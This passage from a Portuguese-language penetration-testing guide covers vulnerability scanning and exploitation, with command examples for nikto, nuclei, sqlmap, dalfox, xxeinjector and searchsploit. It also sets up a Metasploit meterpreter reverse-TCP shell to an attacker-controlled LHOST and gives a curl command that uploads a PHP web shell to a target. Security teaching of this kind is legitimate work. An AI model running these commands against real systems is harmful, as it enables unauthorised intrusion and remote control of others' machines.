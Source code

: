 ### 3. Análise de Vulnerabilidades
#### Scanners Automatizados
```bash
# Nikto para web
nikto -h http://target.com

# Nuclei para vulnerabilidades modernas
nuclei -u http://target.com

# OpenVAS (se instalado)
openvas-start
```

#### Testes Web Específicos
```bash
# SQL Injection
sqlmap -u "http://target.com/page?id=1" --dbs

# XSS testing
dalfox url http://target.com/search?q=test

# XXE testing
xxeinjector --host=target.com --path=/upload --file=test.xml
```

### 4. Exploração (Exploitation)
#### Metasploit Framework
```bash
# Iniciar Metasploit
msfconsole

# Buscar exploits
search type:exploit platform:linux

# Configurar payload
use exploit/linux/http/example_exploit
set RHOSTS target.com
set payload linux/x64/meterpreter/reverse_tcp
set LHOST your_ip
exploit
```

#### Exploits Manuais
```bash
# Buscar exploits conhecidos
searchsploit service_name version

# Buffer overflow
python exploit.py target.com port

# Web shell upload
curl -F "file=@shell.php" http://target.com/upload.php
```
